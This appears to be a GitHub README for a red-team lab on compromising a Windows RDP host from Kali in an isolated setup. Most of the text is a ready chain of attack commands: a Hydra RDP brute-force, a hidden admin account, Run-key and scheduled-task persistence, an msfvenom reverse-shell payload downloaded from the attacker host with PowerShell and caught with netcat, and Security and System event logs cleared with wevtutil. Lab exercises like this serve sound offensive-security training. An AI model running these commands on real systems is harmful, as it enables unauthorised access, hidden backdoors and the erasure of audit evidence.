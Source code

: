 Advanced RDP Red Teaming Lab

Disclaimer

> This project is for educational purposes only. All activities were conducted in a safe, isolated lab environment using virtual machines I own. Do not attempt this on any system you do not have explicit permission to test.




---

Table of Contents

Objective

Lab Setup

Recon & Scanning

RDP Brute-Force

Python Script

Access & Post-Exploitation

Privilege Escalation

Persistence

Backdoor Shell

Lateral Movement

Clean-Up

Reporting



---

Objective

Simulate a real-world red team operation by brute-forcing weak RDP credentials, then performing post-exploitation, persistence, and potential lateral movement on the compromised host.


---

Lab Setup

-attacker: kali linux

tools :hydra,nmap,xfreerdp,python

-victim:windows 10,

tools:RDP enabled,weak password 

-Network: Host only,isolated,no internet.

---

Recon & Scanning

Scan RDP port with Nmap:

nmap -p 3389 <target_ip>


---

RDP Brute-Force

Use hydra:

hydra -t 8 -V -l Administrator -P shortlist.txt rdp://<target_ip>

Or use the Python script below.


---

Python Script

Run with:

python3 rdp_bruteforce.py


---

Access & Post-Exploitation

xfreerdp /u:Administrator /p:<password> /v:<target_ip> /cert:ignore

Inside RDP Session:

whoami
hostname
ipconfig /all
systeminfo
dir /s /b C:\\Users\\*.txt


---

Privilege Escalation

Check permissions:

whoami /groups

Run WinPEAS/SharpUp for local exploits (upload via RDP). Look for:

AlwaysInstallElevated

Unquoted service paths

Weak service permissions



---

Persistence

Add hidden admin user:

net user sysadmin P@ssw0rd123 /add
net localgroup administrators sysadmin /add

Registry-based persistence:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v updater /t REG_SZ /d "C:\\rev.exe"

Scheduled Task:

schtasks /create /tn "Updater" /tr "C:\\rev.exe" /sc onlogon


---

Backdoor Shell

Generate backdoor:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=4444 -f exe -o rev.exe
python3 -m http.server 80

Download in RDP:

powershell -c "Invoke-WebRequest -Uri http://<kali_ip>/rev.exe -OutFile C:\\rev.exe"

Execute & catch:

nc -lvnp 4444


---

Lateral Movement

net view /domain
net view \\<hostname>

Reuse dumped credentials to access other machines if available.


---

Clean-Up

Clear logs (not recommended unless simulating attacker evasion):

wevtutil cl Security
wevtutil cl System

Delete backdoors, users, and payloads.


---

Reporting

Document:

Entry vector

Credentials cracked

Privilege escalation method

Persistence mechanism

Tools/scripts used

Detection logs

Mitigation recommendations





